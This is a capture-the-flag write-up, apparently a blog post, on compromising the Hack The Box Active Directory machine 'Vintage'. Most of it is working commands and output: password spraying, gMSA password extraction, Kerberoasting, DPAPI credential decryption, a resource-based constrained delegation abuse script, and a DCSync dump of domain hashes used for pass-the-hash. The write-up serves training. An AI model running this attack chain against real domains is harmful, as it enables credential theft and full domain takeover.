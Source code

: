 ```yaml
---
layout: post
title: HTB - vintage
date: 2025-04-25 14:07 -0400
---
```


{{ 'vintage' | machine_img }}

## nmap
```bash
» sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49674,60870,60875,60893 -sC -sV $(cat ip.txt) --min-rate 1024
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-14 15:11 -04
Nmap scan report for dc01.vintage.htb (10.10.11.45)
Host is up (0.24s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-14 19:15:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60870/tcp open  msrpc         Microsoft Windows RPC
60875/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m59s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-02-14T19:16:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.27 seconds
```

## domains
dc01.vintage.htb
vintage.htb

Default windows ports, we have P.Rosa credentials to start.
- P.Rosa:Rosaisbest123

Start checking smb.
```bash
» netexec smb $(cat ip.txt) -u P.Rosa@vintage.htb -p Rosaisbest123
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa@vintage.htb:Rosaisbest123 STATUS_NOT_SUPPORTED
```

Looks like you need to use kerberos auth.
```bash
» netexec smb dc01.vintage.htb -u P.Rosa@vintage.htb -p Rosaisbest123 -k
```

Check bloodhound now.
```bash
bloodhound-ce-python -c All -u P.Rosa -p Rosaisbest123  --zip -d vintage.htb -ns $(cat ip.txt)
```

Make a list of users and try <user>:<user>. Important to lowercase everything and add or remove `$` at the end.
```bash
» netexec smb dc01.vintage.htb -u users.txt -p users.txt -k --no-brute --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\fs01:fs01
```

Got a match for FS01. It's a computer. And it has ReadGMSAPassword over GMSA01$. Maybe I can just bloodyAD it?
```bash
» bloodyAD -k --host dc01.vintage.htb get object 'gmsa01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```

So now we can login into gmsa01$ with pass the hash. And get access to 3 service accounts.
![gmsa 1](/assets/img/vintage3.png)
![gmsa 2](/assets/img/vintage4.png)


Can't change the passwords:
```bash
bloodyAD -k --host dc01.vintage.htb set password svc_sql 'asdf1234$Ba'
bloodyAD -k --host dc01.vintage.htb set password svc_ldap 'asdf1234$Ba'
bloodyAD -k --host dc01.vintage.htb set password svc_ark 'asdf1234$Ba'
```

Kerberoasting works though. First needs to activate the sql account.
```bash
bloodyAD -k --host dc01.vintage.htb remove uac svc_sql -f ACCOUNTDISABLE
targetedKerberoast.py -d vintage.htb --dc-host dc01.vintage.htb -k
```

Now we crack the hashes. Only one worked.
- svc_sql:Zer0the0ne

Try this password on every user. Works for c.neri.
```bash
netexec smb dc01.vintage.htb -u users.txt -p Zer0the0ne -k --no-brute --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri:Zer0the0ne
```

c.neri has winrm access so its probably the user flag.
```bash
getTGT.py 'vintage.htb/c.neri:Zer0the0ne'
export KRB5CCNAME=./c.neri.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
*Evil-WinRM* PS C:\Users\C.Neri\Documents> type ..\Desktop\user.txt
33c3e***************************
```

On linux you need to edit the kerberos config at `/etc/krb5.conf`, so you can winrm:
```bash
[realms]
VINTAGE.HTB = {
  kdc = dc01.vintage.htb
  admin_server = dc01.vintage.htb
  default_domain = vintage.htb
}

[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB
```

There is some saved credentials in 'C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6'. We can interact with it with dpapy.py from impacket.
```bash
dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
# Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
- vintage\c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

c.neri_adm can add self to delegatedadmins. So we can execute something as someone else?
![delegate](/assets/img/vintage5.png)
![delegate](/assets/img/vintage6.png)

We can abuse RBCD, which is a security mechanism that limits which services can act on behalf of an user.

We need an account with `GenericWrite` over another and the other account needs to have a ServicePrincipalName set. For the full theory, prerequisites and edge cases: [theory](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)

Here we can use `gmsa01$` to set `svc_sql` spn. Then we add `svc_sql` to DELEGATEDADMINS giving it access to delegation capabilities. Now we use `S4U2Self` and `S4U2Proxy`.

From what I could understand (probably incomplete):
- S4U2Self
  - gets a service ticket with the permissions of another user.
- S4U2Proxy
  - gets a service ticket for another service with the permissions of another user.

Putting it all together:
```bash
#!/usr/bin/env bash

# login as gmsa01
getTGT.py 'vintage.htb/gmsa01' -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 -no-pass
export KRB5CCNAME=./gmsa01.ccache

# update the ticket
bloodyAD -k --host dc01.vintage.htb add groupMember servicemanagers 'gmsa01$'
getTGT.py 'vintage.htb/gmsa01' -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 -no-pass

# setup svc_sql
bloodyAD -k --host dc01.vintage.htb remove uac "svc_sql" -f ACCOUNTDISABLE
bloodyAD -k --host dc01.vintage.htb set object "svc_sql" servicePrincipalName  -v "cifs/fake"
export KRB5CCNAME=

# add svc_sql to delegateadmins
getTGT.py 'vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312'
export KRB5CCNAME=./c.neri_adm.ccache
bloodyAD -k --host dc01.vintage.htb add groupMember "DELEGATEDADMINS" "svc_sql"
export KRB5CCNAME=

# impersonate l.bianchi_adm
getTGT.py vintage.htb/"svc_sql":Zer0the0ne
export KRB5CCNAME=./"svc_sql".ccache
getST.py -impersonate "l.bianchi_adm" -spn "cifs/dc01.vintage.htb" -k -no-pass -dc-ip "dc01.vintage.htb" "vintage.htb"/"svc_sql":"Zer0the0ne"
```

This gives a ticket to l.bianchi_adm, from here you can choose how you get admin, l.bianchi_adm can do whatever. With DCSync:
```bash
export KRB5CCNAME=./l.bianchi_adm.ccache
secretsdump.py -k dc01.vintage.htb -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
getTGT.py 'vintage.htb/Administrator' -hashes aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de -no-pass -k
export KRB5CCNAME=./Administrator.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

Admin gives an error when trying to login with winrm. Let's try with l.bianchi_adm.
```bash
export KRB5CCNAME=./l.bianchi_adm.ccache
secretsdump.py -k dc01.vintage.htb -just-dc-user l.bianchi_adm
# l.bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0:::
getTGT.py 'vintage.htb/l.bianchi_adm' -hashes aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0 -no-pass -k
export KRB5CCNAME=./l.bianchi_adm.ccache
evil-winrm -i dc01.vintage.htb -r vintage.htb
*Evil-WinRM* PS C:\Users\l.bianchi_adm\Documentype ..\..\Administrator\Desktop\root.txt
b57b2**************************
```
